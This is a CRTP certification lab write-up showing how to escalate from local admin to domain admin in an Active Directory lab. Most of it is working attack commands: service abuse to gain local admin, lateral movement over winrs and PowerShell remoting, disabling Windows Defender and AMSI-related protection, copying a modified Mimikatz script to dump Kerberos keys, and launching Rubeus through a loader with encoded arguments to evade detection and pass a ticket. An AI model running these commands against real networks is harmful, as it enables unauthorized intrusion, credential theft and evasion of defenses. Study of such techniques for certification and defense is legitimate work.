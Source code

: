 ```yaml
---
title: Active Directory (AD) | Exploiting Local Admin to Domain Admin
date: 2024-07-01 00:00:00
categories: [Cert, CRTP]
tags: [Cert,Active Directory]     ## TAG names should always be lowercase
render_with_liquid: false
description: This topic covers the steps and techniques involved in leveraging local administrator access on machines
---
```


![Result](/img/crtp/result10.png){: width="972" height="589" }

## **Step 1: Check for Privilege Escalation Paths**
**Tools Used:** PowerView. This step ensures you can escalate your privileges on the current machine to gain local admin rights. Start by checking for any privilege escalation paths. If any services can be abused, add your domain user to the local admin group.

The Invoke-AllChecks function gathers information on the Active Directory environment, accessible network shares, local administrators, active user sessions, domain trust relationships, and services permissions to aid in network reconnaissance

```bash
Invoke-AllChecks
```
![Result](/img/crtp/result1.png){: width="972" height="589" }
_Invoke-AllChecks_

## **Step 2: Abusing Services**
**Tools Used:** PowerView. After running Step 1, you will have identified a few services that can be abused. We can exploit these services to add our current domain user to the local Administrators group. 

Adding a user to the local Administrators group allows them to perform administrative tasks such as installing software, changing system settings, and accessing all files on the system, which can be crucial for further exploitation and maintaining control over the machine.

```bash
Invoke-ServiceAbuse
Invoke-ServiceAbuse -Name 'AbyssWebServer' -UserName 'dcorp\studentx' -Verbose
```

![Result](/img/crtp/result2.png){: width="972" height="589" }
_Now, our user is a local admin !_


## **Step 3: [Lateral Movement] Identifying Additional Machines for Local Admin Access**

**Tools Used:** Find-PSRemotingLocalAdminAccess.ps1. After gaining local admin rights on one machine, identifying other machines where you have local admin access helps in expanding your control over the network. This can give you access to more resources, data, or higher-privilege accounts. So, you have to identify any computers/machines in the domain where our user has local administrative access.

```bash
Find-PSRemotingLocalAdminAccess
```
![Result](/img/crtp/result3.png){: width="972" height="589" }
_Userx has administrative access on dcorp-adminsrv and on the student machine_

## **Step 4: [Lateral Movement] Exploiting Remote Access**

After identifying machines with local admin access, we can remotely connect using tools like winrs and PowerShell Remoting (Enter-PSSession) because local admin rights grant us the necessary permissions to access and control these machines remotely over the network.

### winrs Remoting
```bash
winrs -r:dcorp-adminsrv cmd
set username
set computername
```
![Result](/img/crtp/result4.png){: width="972" height="589" }

### PowerShell Remoting
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
```
![Result](/img/crtp/result5.png){: width="972" height="589" }

## **Step 5: Derivative Local Admin**

Utilize derivative local admin access gained in Step 3 and 4 to identify machines with active domain admin sessions. Exploit these sessions to escalate privileges and potentially gain Domain Admin access, utilizing techniques such as token stealing or credential extraction.

**Tools Used:** Invoke-Mimi. To dump hashes or extract credentials from dcorp-adminsrv, we will use Invoke-Mimi.

### Disable Windows Defender on the target machines
```bash
Set-MpPreference -DisableRealtimeMonitoring $true -Verbose
```

### Disable AMSI on the target machines
```bash
$sess = New-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local
Invoke-Command -ScriptBlock {Set-MpPreference -DisableIOAVProtection $true} -Session $sess
```

### Using Dot Sourcing in PowerShell Scripts
In environments with strict security policies or when PowerShell operates in Constrained Language Mode, dot sourcing (.) scripts like Invoke-Mimi.ps1 may be restricted.

So, we must modify Invoke-Mimi.ps1 to include the function call in the script itself and transfer the modified script (Invoke-MimiEx.ps1) to the target server. Here is step-by-step :

- Create a copy of Invoke-Mimi.ps1 and rename it to Invoke-MimiEx.ps1. 
- Open Invoke-MimiEx.ps1 in PowerShell ISE (Right click on it and click Edit). 
- Add "Invoke-Mimi -Command '"sekurlsa::ekeys"' " (without quotes) to the end of the file.
- Copy the Invoke-MimiEx.ps1 to the target machines
```bash
Copy-Item C:\AD\Tools\Invoke-MimiEx.ps1 \\dcorp-adminsrv.dollarcorp.moneycorp.local\c$\'Program Files'
```
- Run the modified mimikatz script
```bash
Enter-PSSession -ComputerName dcorp-adminsrv.dollarcorp.moneycorp.local'
.\Invoke-MimiEx.ps1
```

## **Step 6: Obtaining TGT using Rubeus**

### Understanding Ticket Granting Tickets (TGTs)
Ticket Granting Tickets (TGTs) are a fundamental part of the Kerberos authentication protocol. When a user successfully authenticates to the Key Distribution Center (KDC), they receive a TGT. This TGT is a form of credential that allows the user to request service tickets (TGS) for accessing specific network services and resources within the Kerberos realm. It contains encrypted information about the user's identity, session key, and other relevant data required for subsequent authentication.

### Steps to Obtain TGT with Rubeus

- Encode arguments (like asktgt) using tools such as ArgSplit.bat to ensure secure transmission and evasion of detection.
![Result](/img/crtp/result11.png){: width="972" height="589" }
-  Use Loader.exe to initiate Rubeus with the encoded arguments (/args %Pwn%) to request a TGT. 
```bash
C:\AD\Tools\Loader.exe -path C:\AD\Tools\Rubeus.exe -args %Pwn% /user:srvadmin
/aes256:145019659e1da3fb150ed94d510eb770276cfbd0cbd834a4ac331f2effe1dbb4
/opsec /createnetonly:C:\Windows\System32\cmd.exe /show /ptt
```
![Result](/img/crtp/result12.png){: width="972" height="589" }
- This retrieves a TGT for the specified user (srvadmin), enabling further operations within the Kerberos realm

